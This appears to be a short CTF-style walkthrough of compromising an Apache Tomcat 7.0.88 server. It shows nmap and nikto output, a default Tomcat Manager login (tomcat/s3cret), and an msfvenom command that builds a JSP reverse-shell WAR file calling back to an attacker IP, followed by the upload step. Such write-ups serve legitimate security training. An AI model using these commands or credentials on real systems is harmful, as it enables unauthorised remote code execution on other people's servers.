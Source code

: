### Enumeration 
#### nmap
```
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
```
Our initial scans give us a wealth of information about a Tomcat server running on port 8080 of the machine. Manually browsing to the webserver root futher confirms this:

`<target-ip>:8080`
```
Apache Tomcat/7.0.88
If you're seeing this, you've successfully installed Tomcat. Congratulations!
```

#### nikto
Despite its age, nikto can still often yield valuable information about web applications. Here, we get *very* lucky, with the following output:
```
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
```

Browsing to `<target-ip>:8080/manager` confirms this.

```
This site is asking you to sign in. 

Username:

Password:
```
### RCE - Administration Panel
Apache Tomcat is a common platform for deploying Java code. This means that we can use a malicious Web Application Resource (alternatively known as a Web Application Archive - `.war`) file to create a reverse shell callback to our machine.

First, we generate the necessary payload with msfvenom:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker-ip> LPORT=8002 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```

Then we simply upload the `WAR` file:
![](/images/jerry/war.png)
